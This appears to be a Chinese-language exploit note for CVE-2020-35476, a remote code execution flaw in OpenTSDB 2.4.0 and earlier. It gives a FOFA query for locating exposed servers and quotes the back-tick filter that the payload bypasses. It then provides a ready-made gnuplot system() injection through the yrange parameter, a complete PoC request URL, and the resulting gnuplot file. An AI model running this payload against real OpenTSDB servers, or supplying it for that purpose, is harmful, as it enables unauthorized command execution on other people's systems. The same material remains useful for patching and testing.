 # CVE-2020-35476 OpenTSDB 2.4.0 远程代码执行

在OpenTSDB 2.4.0及更低版本中yrange参数发现了一个远程执行代码漏洞（其他参数可能也容易受到攻击）。

fofa：`title="Opentsdb" ||body="opentsdb_header.jpg"`

在 CVE-2018-12972 用 反引号 来进行命令注入，o=%60ls%60 官方引入如下函数来过滤，现在可以重新被绕过。


```
// TODO - far from perfect, should help a little.
        if *(given.contains("`") || given.contains("%60") || 
            given.contains("&#96;")) *{
          throw new BadRequestException("Parameter " + param + " contained a "
              + "back-tick. That's a no-no.");
        }
```

/src/tsd/GraphHandler.java：


```
private static String popParam(final Map<String, List<String>> querystring,
                                         final String param) {
        final List<String> params = querystring.remove(param);
        if (params == null) {
          return null;
        }
        final String given = params.get(params.size() - 1);
        // TODO - far from perfect, should help a little.
        if *(given.contains("`") || given.contains("%60") || 
            given.contains("&#96;")) *{
          throw new BadRequestException("Parameter " + param + " contained a "
              + "back-tick. That's a no-no.");
        }
        return given;
      }
```

Bypass Payload:


```
[33:system('touch/tmp/poc.txt')]
```

PoC：

```
http://opentsdbhost.local/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json
```

OpenTSDB在temp目录中创建的gnuplot文件如下所示：


```
set term png small size 1516,644
set xdata time
set timefmt "%s"
if (GPVAL_VERSION < 4.6) set xtics rotate; else set xtics rotate right
set output "/tmp/d705ba5b.png"
set xrange ["972086400":"1603641404"]
set format x "%Y/%m/%d"
set grid
set style data linespoint
set key right box
set ylabel ""
*set yrange [33:system('touch /tmp/poc.txt')]*
plot "/tmp/d705ba5b_0.dat" using 1:2 title "sys.cpu.nice{host=web01, dc=lga}"
```

当OpenTSDB执行mygnuplot.sh的时候poc.txt文件将被写入到临时目录。

ref：

* https://github.com/OpenTSDB/opentsdb/issues/2051
* https://xz.aliyun.com/t/2511
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35476
* https://forum.ywhack.com/thread-114835-1-2.html
